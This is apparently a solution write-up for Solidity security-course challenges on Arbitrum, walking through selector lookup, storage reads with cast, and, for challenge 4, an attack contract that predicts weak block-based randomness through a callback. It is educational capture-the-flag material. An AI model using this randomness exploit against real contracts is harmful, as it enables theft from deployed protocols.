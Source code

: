 # Lesson Challenges

### [Challenge 0](https://arbiscan.io/address/0xf923431da74ecc873c4d641fbdfa2564baafca9f#code)
```solidity
 /*
     * CALL THIS FUNCTION!
     * 
     * @param yourTwitterHandle - Your twitter handle. Can be a blank string.
     */
    function solveChallenge(string memory twitterHandle) external {
        _updateAndRewardSolver(twitterHandle);
    }
```
- Self explanatory, just enter a string

### [Challenge 1](https://arbiscan.io/address/0x7a0f40757f6ba868b44ce959a1d4b8bc22c21d59)
`S1.sol`
```solidity
    /*
     * CALL THIS FUNCTION!
     * 
     * @param the function selector of the first one you need to call
     * @param the abi encoded data... hint! Use chisel to figure out what to use here...
     * @param yourTwitterHandle - Your twitter handle. Can be a blank string.
     */
    function solveChallenge(bytes4 selectorOne, bytes memory inputData, string memory yourTwitterHandle) external {
        (bool successOne, bytes memory responseDataOne) = i_helperContract.call(abi.encodeWithSelector(selectorOne));
        if (!successOne || uint256(bytes32((responseDataOne))) != 1) {
            revert S1__WrongSelector();
        }

        (bool successTwo, bytes memory responseDataTwo) = i_helperContract.call(inputData);
        if (!successTwo || uint256(bytes32((responseDataTwo))) != 1) {
            revert S1__WrongData();
        }
        _updateAndRewardSolver(yourTwitterHandle);
    }

    function getHelperContract() external view returns (address) {
        return i_helperContract;
    }
```
- For this challenge we need to call the function selector for "the first one you need to call"
- We see that there is `i_helperContract.call(abi.encodeWithSelector(selectorOne))`, so "the first one you need to call", probably means the first function in the helper contract

`S1Helper.sol`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract S1Helper {
    function returnTrue() external pure returns (bool) {
        return true;
    }

    function returnTrueWithGoodValues(uint256 nine, address contractAddress) public view returns (bool) {
        if (nine == 9 && contractAddress == address(this)) {
            return true;
        }
        return false;
    }
}
```
- From the helper contract, we see that `returnTrue` is the first function
- We can use cast to get the selector
```
$ cast keccak "returnTrue()"
0xf613a6873d6cfa57a62ebf63d2f80e5e639fa6df74ad2066cb9579549b44912c
```
- The selector will be the first [4 bytes](https://solidity-by-example.org/function-selector/): `0xf613a687`
- `cast sig "returnTrue()"` does all the work for us
- Since the function doesn't require any arguments, we can use the selector for both parameters of the challenge

### [Challenge 2](https://arbiscan.io/address/0xeab9c7ac697408fd1581494577c7c0716c3b75e6#code)
```
/*
     * CALL THIS FUNCTION!
     * 
     * @param weCallItSecurityReview - Set "true" if you'll call it "security review" instead of "security audit".
     * @param yourTwitterHandle - Your twitter handle. Can be a blank string.
     */
    function solveChallenge(bool weCallItSecurityReview, string memory yourTwitterHandle) external {
        if (!weCallItSecurityReview) {
            revert S2__WrongValue();
        }
        _updateAndRewardSolver(yourTwitterHandle);
    }
```
- We want to bypass the if check, so use `true` for the first parameter.

### [Challenge 3](https://arbiscan.io/address/0x89edc4c74810bedbd53d7da677eb420dc0154b0b#code)
```
 function solveChallenge(uint256 valueAtStorageLocationSevenSevenSeven, string memory yourTwitterHandle) external {
        uint256 value;
        assembly {
            value := sload(STORAGE_LOCATION)
        }
        if (value != valueAtStorageLocationSevenSevenSeven) {
            revert S3__WrongValue();
        }
        // slither-disable-next-line weak-prng
        uint256 newValue =
            uint256(keccak256(abi.encodePacked(msg.sender, block.prevrandao, block.timestamp))) % 1_000_000;
        assembly {
            sstore(STORAGE_LOCATION, newValue)
        }
        _updateAndRewardSolver(yourTwitterHandle);
    }
```
- We know that our variable is going to be stored in storage location 777. 
- We can use `cast`:
`cast storage 0x89edc4c74810bedbd53d7dA677eB420DC0154B0b 777 --rpc-url $ARBITRUM_RPC_URL`

### [Challenge 4](https://arbiscan.io/address/0xef72ba6575b86beaa9b9e4a78bca4a58f3cce276)
```
/*
 * CALL THIS FUNCTION!
 * 
 * @param guess - your guess to solve the challenge. 
 * @param yourTwitterHandle - Your twitter handle. Can be a blank string.
 */
function solveChallenge(uint256 guess, string memory yourTwitterHandle) external {
	(bool success, bytes memory returnData) = msg.sender.staticcall(abi.encodeWithSignature("owner()"));
	address ownerAddress;
	assembly {
		ownerAddress := mload(add(returnData, 32))
	}
	if (!success || ownerAddress != msg.sender) {
		revert S4__BadOwner();
	}
	if (myVal == 1) {
		// slither-disable-next-line weak-prng
		uint256 rng =
			uint256(keccak256(abi.encodePacked(msg.sender, block.prevrandao, block.timestamp))) % 1_000_000;
		if (rng != guess) {
			revert S4__BadGuess();
		}
		_updateAndRewardSolver(yourTwitterHandle);
	} else {
		myVal = 1;
		(bool succ,) = msg.sender.call(abi.encodeWithSignature("go()"));
		if (!succ) {
			revert S4__BadReturn();
		}
	}
	myVal = 0;
}
```
- We need to create an attack contract to take advantage of the weak randomness implemented by the challenge
- Our attack contract should have a function called `owner()` and a function called `go()`

 `owner()` needs to return the address of the attack contract
```js
function owner() external view returns (address) {
	return address(this);
}
```

 `go()` should handle the `rng` calculation and call the `solveChallenge` function
```js
function go() external {
	string memory handle = "";
	uint256 rng = uint256(keccak256(abi.encodePacked(address(this), block.prevrandao, block.timestamp))) % 1_000_000;
	challengeContract.solveChallenge(rng, handle);
}
```

Our contract should be able to receive NFTs
```js
import {IERC721Receiver} from "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import {IERC721} from "@openzeppelin/contracts/token/ERC721/IERC721.sol";

contract S4Attack is IERC721Receiver {
	...
	
	function onERC721Received(address, address, uint256, bytes calldata) external pure override returns (bytes4) {
		return this.onERC721Received.selector;
	}

    ...
}
```